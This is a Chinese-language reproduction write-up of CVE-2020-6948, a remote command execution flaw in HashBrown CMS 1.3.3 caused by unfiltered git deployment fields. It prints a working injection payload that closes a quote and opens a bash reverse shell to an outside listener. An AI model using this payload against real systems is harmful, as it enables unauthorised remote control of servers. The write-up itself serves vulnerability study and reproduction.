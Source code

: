 （CVE-2020-6948）HashBrown CMS 远程命令执行漏洞
===============================================

一、漏洞简介
------------

HashBrown CMS是一套开源的无头内容管理系统（CMS）。 HashBrown CMS
1.3.3及之前版本中存在远程代码执行漏洞，该漏洞源于程序没有进行正确的安全检查。攻击者可利用该漏洞执行代码。

二、漏洞影响
------------

HashBrown CMS 1.3.3

三、复现过程
------------

在之前收集的资料里面总结了发现漏洞基本有三个方法：

-   通过关键字搜索，比如exec方法在很多语言里面代表执行系统命令，那你就可以搜索查看传入exec方法的参数有没有经过过滤，有没有办法利用。<https://github.com/wireghoul/graudit>
    这个项目就罗列了很多语言的关键词可以用作参考。

-   根据function来阅读代码，但是这种方法花费的时间比第一种多，有可能迷失在各种各种各样的方法中。

-   通读代码，这样最全，但是显然速度要慢很多了。

对于Hashbrown
CMS，先用第一种方法开路。尝试了几个关键字之后我选取了exec这个关键字。在grep
之后发现了下面的结果。

![](./.resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId25.png)

看来这个应用使用git 相关命令，如果可以传入url
参数就有可能触发命令执行漏洞。接着打开Server/Entity/Deployer/GitDeployer.js
文件查看源代码。

![](./.resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId26.png)

其中可以看到url由username，password，和repro
几个变量拼接，而且其中没有过滤特殊的字符和命令。那接下来就是到页面里面寻找触发的点。经过对这个应用的一番熟悉，得知可以在登录后建立新的connection选择git部署的方式，在Repository，Branch，username或者password字段填写你要执行的命令即可。但是这里要注意程序本来的exec命令中填写有单引号，我们要对其进行闭合，比如填入如下命令来反弹一个shell。

    https://google.com' & /bin/bash -c 'bash -i >& /dev/tcp/192.168.119.149/8888 0>&1

配置如下：

![](./.resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId27.png)

然后点击media菜单触发git命令执行

![](./.resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId28.png)

接下来在监听的机器上就可以获得shell了

![](./.resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId29.png)

参考链接
--------

> <https://mp.weixin.qq.com/s?__biz=MjM5MDYxODkyMA==&mid=2651345793&idx=1&sn=02381bb3dbd4679b12be4628d665e815&chksm=bdbef7c68ac97ed063e8df46a42e2a111dfd52f108f6b267f8dfc183b6b0ed3f87b6af757487&mpshare=1&scene=1&srcid=&sharer_sharetime=1582514363054&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=019d47c25aa835ac2d58a398c473737e01644761ca991f7009ada9eb1ef69e4dd41b2008c27db720006e0858455f920d0801d9feae53aa4314f05d6e310a7290ae2b93e17343c13f6a9f2ce360254195&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AZc%2BxZJwp8CueCtaKThWQrI%3D&pass_ticket=l4uNHDrGwGqrS%2BmJVv56i4FzemghweUeBbN1BEETCGd3TqEDSTcwvRMSxogubM8j>
